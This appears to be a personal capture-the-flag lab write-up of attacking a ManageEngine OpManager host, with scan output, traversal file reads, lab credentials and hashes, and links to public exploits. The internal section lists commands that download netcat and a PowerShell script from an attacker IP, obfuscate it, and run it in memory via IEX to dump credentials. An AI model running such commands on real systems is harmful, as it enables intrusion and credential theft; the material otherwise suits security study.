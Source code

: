 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 
- IP: `172.16.1.30`

# Findings
### Credentials
`FoundCREDs`

### flag
- `OFFSHORE{RC3_a$_@_s3rv1c3}`
- `OFFSHORE{l0v3_cl3artext_pr0toc0l$}`
- `OFFSHORE{p@ssw0rds_1n_cl3ar_t3xT}`
## External
### Enumeration
```

PORT     STATE SERVICE       REASON         VERSION
22/tcp   open  ssh           syn-ack ttl 64 (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-Network ConfigManager SCP Server
80/tcp   open  http          syn-ack ttl 64
|_http-title: ManageEngine OpManager
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200
|     Cache-Control: private
|     Expires: Wed, 31 Dec 1969 19:00:00 EST
|     Set-Cookie: JSESSIONID=23D673989A2B73D3EA2AF51D7DB3D51D; Path=/; HttpOnly
|     X-Frame-Options: DENY
|     Content-Type: text/html;charset=UTF-8
|     Vary: Accept-Encoding
|     Date: Tue, 02 Jul 2024 10:32:59 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <!--[if IE]><meta http-equiv='X-UA-Compatible' content='IE=edge,chrome=1' /><![endif]-->
|     <script>
|     sessionStorage.clear();
|     ntlm = false;
|     </script>
|     <input type="hidden" id="loadCookieMethod" value="true">
|     <title>
|     ManageEngine OpManager
|     </title>
|     <script type="text/javascript">
|     function GetXmlHttpObject()
|     objXMLHttp=null
|     (window.XMLHttpReque
|   HTTPOptions:
|     HTTP/1.1 403
|     Cache-Control: private
|     Expires: Wed, 31 Dec 1969 19:00:00 EST
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1056
|     Vary: Accept-Encoding
|     Date: Tue, 02 Jul 2024 10:32:59 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 403
|_    Forbidden</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {colo
135/tcp  open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  syn-ack ttl 64 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
2000/tcp open  cisco-sccp?   syn-ack ttl 64
3389/tcp open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2024-07-02T10:38:12+00:00; +40s from scanner time.
| ssl-cert: Subject: commonName=MS01.corp.local
| Issuer: commonName=MS01.corp.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-01T03:31:48
| Not valid after:  2024-12-31T03:31:48
| MD5:   acd2:6919:9b2d:57e7:43e9:e0e2:7dd2:932c
| SHA-1: 80b5:5ab1:de6c:0602:cac7:45ee:e9b2:4f1e:8818:c327
```
![](https://i.imgur.com/ws8zzKj.png) The BaseDir Where the exploit opens - `C:\ManageEngine_new\OpManager\bin\..\../../users/Public/POST.ps1`
- I have got access to read directories.
![](https://i.imgur.com/oJTda59.png)
- I can Download and read the content of the files
`C:\ManageEngine_new\OpManager\README.html`
- I can use this nmap after access gain: `C:\ManageEngine_new\OpManager\Nmap\nmap.exe`
![](https://i.imgur.com/50QRrAh.png)
`<property name="masterkey.password" value="Password123"/>`
`        <AaaPassword user=admin password_id="AaaPassword:password_id:0" password="Ok6/FqR5WtJY5UCLrnvjQQ==" algorithm="MD5" salt="12345678" passwdprofile_id="AaaPasswordProfile:passwdprofile_id:1" passwdrule_id="AaaPasswordRule:passwdrule_id:0"/>`
```
<USER-PASSWD>
<DATA userid="1" ownername="NULL" password="d7963B4t" username="admin"/>
<DATA userid="2" ownername="NULL" password="d7962CgyJ" username="IntegrationUser"/>
<DATA userid="3" ownername="NULL" password="d7962C6y778XdgyO6ibs" username="trialuserlogin"/>
</USER-PASSWD>
<USER-GROUP>
<DATA userid="1" username="admin"  groupname="Administrators" ownername="NULL"/>
<DATA userid="1" username="admin"  groupname="Operators" ownername="NULL"/>
<DATA userid="1" username="admin"  groupname="SuperUser" ownername="NULL" />
<DATA userid="2" username="IntegrationUser" groupname="Administrators"  ownername="NULL"/>
<DATA userid="2" username="IntegrationUser" groupname="Operators"  ownername="NULL"/>
<DATA userid="3" username="trialuserlogin" groupname="Administrators"  ownername="NULL"/>
<DATA userid="3" username="trialuserlogin" groupname="Operators"  ownername="NULL"/>
</USER-GROUP>


C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\AutoUpgrade.bat
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\AutoUpgradeBatchMode.bat
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\backup\BackupDB.bat
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\backup\RestoreDB.bat
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\backup\TablesToRestore.conf
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\changeIPDB.bat
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\ChangeServerBindIp.bat
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\ChangeWebServerPort.bat
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\change_datadir_perm.bat
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\compileJSPApiclient.bat
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\ConvertSIDTOAccountName.exe
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\DBConfiguration.bat
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\DBDump.bat
C:\ManageEngine_new\OpManager\bin\..\..\OpManager\bin\DBStatus.bat


\users\Administrator\Documents\logins.xlsx

C:\ManageEngine_new\OpManager\bin\..\..\..\users\Public\POST.ps1
html\DefaultSettings.config
```
https://github.com/BeetleChunks/CVE-2020-12116 - where i found the sensetive files list
- Cant find nothing, so i went to the password we got from the foothold and i logged in with it
- ![](https://i.imgur.com/Y8SLRdp.jpeg)
- Searching the version, i got this exploit https://www.exploit-db.com/exploits/47255
### Gaining Access
![](https://i.imgur.com/NpxQiFz.png)
## Internal
### Enumeration
![](https://i.imgur.com/QINz2Ip.png)
![](https://i.imgur.com/oTOqIk3.png)
![](https://i.imgur.com/SuZbIgo.png)
![](https://i.imgur.com/41M7R9j.png)
- ![](https://i.imgur.com/v1mM4x1.png)
![](https://i.imgur.com/Nm7m6sZ.png)
![](https://i.imgur.com/BT3Z8cn.png)
[[DC01]]
![](https://i.imgur.com/stTSBOR.png)
![](https://i.imgur.com/tTbhUNK.png)
![](https://i.imgur.com/w5HqXjA.png)
```
powershell -c iwr http://10.10.16.149/nc.exe -outfile nc.exe
curl http://10.10.16.248/o-bayush.ps1 -O Invoke-bayush.ps1

Invoke-PSObfuscation -Path .\Invoke-bayush.ps1 -Cmdlets -Comments -NamespaceClasses -Variables -OutFile o-bayush.ps1

IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.248/Invoke-bayush.ps1'); Invoke-Rexder -DumpCred

```
![](https://i.imgur.com/RG9cR7X.png)
![](https://i.imgur.com/pyTF8T3.png)
`Administrator : Password1!`
![](https://i.imgur.com/E3lPItH.png)
```
[*] John the Ripper format:
# mscash2
iamtheadministrator:$DCC2$10240#iamtheadministrator#3c1e5b31c203b2b52920f7ce19110ab4:CORP.LOCALi:CORP
svc_opmanager:$DCC2$10240#svc_opmanager#48b0724f3c01860767afe412ca1e361f:CORP.LOCALs:CORP
```
- try rdp into every single machines and we have a hit on `172.16.1.36` [[WSADM]]
### Gaining Access


### Maintaining Access


# Random Notes